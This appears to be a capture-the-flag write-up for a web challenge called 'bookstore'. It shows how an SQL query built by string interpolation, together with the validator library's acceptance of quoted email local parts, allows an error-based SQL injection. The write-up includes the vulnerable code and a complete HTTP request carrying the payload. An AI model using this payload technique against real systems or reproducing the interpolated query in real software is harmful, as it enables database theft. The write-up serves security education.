



# bookstore

web sqli

## Analysis

We are given the source of a web application and its address. The home
page has options to register or login.

After logging in we can see o list of books available for purchase.

We can then download the books we purchased.

When choosing to download a book we can pick between `direct` and
`kindle` downloads. After picking, we make a POST to `/download-ebook`.
Here's the source for this route.

    app.post('/download-ebook', (req, res) => {
        const option = req.body?.option ?? '';
        const email = req.body?.email ?? '';
        const bookID = req.body?.bookID ?? 1;
        const user = req.session?.user ?? { books: [] };
        if (!validBooks.find(book => book.id == bookID)) {
            res.send('Invalid book ID');
            return;
        } /* else if (!user.books.includes(bookID)) {
            res.send('You do not have this book');
            return;
        } */

        switch (option) {
            case 'direct':
                res.write('Direct downloads currently unavailable. Please wait until the established publish date!');
                break;
            case 'kindle':
                if (validateEmail(email)) {
                    db.insertEmail(email, bookID).then((err) => {
                        if (err) {
                            res.send('Error: ' + err);
                        } else {
                            res.send("Email saved! We'll send you a download link once the book has been published!")
                        }
                    }).catch((err) => {
                        res.send('Error: ' + err);
                    })
                } else {
                    res.send("Invalid email address")
                }
                break;
            default:
                res.send('Invalid option');
                break;
        }
    });

We can see that the `direct` option doesn't really get us anywhere. The
`kindle` option calls `db.insertEmail` though.

    insertEmail(email, book_id) {
        const query = `INSERT INTO requests(email, book_id) VALUES('${email}', '${book_id}');`;
        return new Promise((resolve, reject) => {
            this.db.query(query, (error) => {
                if (error != null) {
                    reject(error);
                } else {
                    resolve(null);
                }
            })
        })
    }

`insertEmail` inserts the parameters `email` and `book_id` into an SQL
query with no sanitization. The `book_id` parameter can't really be used
for an injection because `/download-ebook` makes sure it's a valid ID.
The `email` parameter gets validated by `validateEmail`, so let's take a
look into that.

    import validator from 'validator'

    export function validateEmail(email) {
        return validator.isEmail(email)
    }

`validateEmail` simply calls a library to do the heavy lifting. I then
decided to just try and get a working payload, but couldn't figure out a
way to make it be a valid email at the same time. After struggling for a
while, I went ahead and checked the source code of the library and found
this piece of code.

    <snip>
    // user is the part before the @
    if (user[0] === '"') {
        user = user.slice(1, user.length - 1);
        return options.allow_utf8_local_part ?
          quotedEmailUserUtf8.test(user) :
          quotedEmailUser.test(user);
    }
    <snip>

And that's how I figured out that you can quote the user of an email.
This is actually super well known and is even on
[HackTricks](https://book.hacktricks.xyz/todo/emails-vulns). If you
quote the user you can use pretty much every character you could ever
want.

## Solution

The flag is on the `texts` column of a book, as we can see on the source
code.

    <snip>
    INSERT INTO books(title, author, price, texts) VALUES('Maple Stories', 'Maple-Chan', 0, 'FLAGE');
    <snip>

    <snip>
    ENV FLAG="maple{test_flag}"
    <snip>
    RUN sed -i "s/FLAGE/$FLAG/g" /init.sql
    <snip>

Since we can see error messages, we just need to make an inner query to
get the flag. The flag is a string while the `book_id` is an integer, so
MySQL will just show us an error with the flag.

    POST /download-ebook HTTP/1.1
    Host: bookstore.ctf.maplebacon.org
    Content-Length: 101
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://bookstore.ctf.maplebacon.org
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://bookstore.ctf.maplebacon.org/books
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: connect.sid=s%3ABdnEbNYwPbMBON5eI0W8fOm_GZyVVcGi.12afwdrsBH7ZDoRHlKTxJKw9FK%2FAU11i81IPHX8UmaU
    Connection: close

    option=kindle&email=<@urlencode>"',(select texts from books where id=1))#"@a.br<@/urlencode>&bookID=1
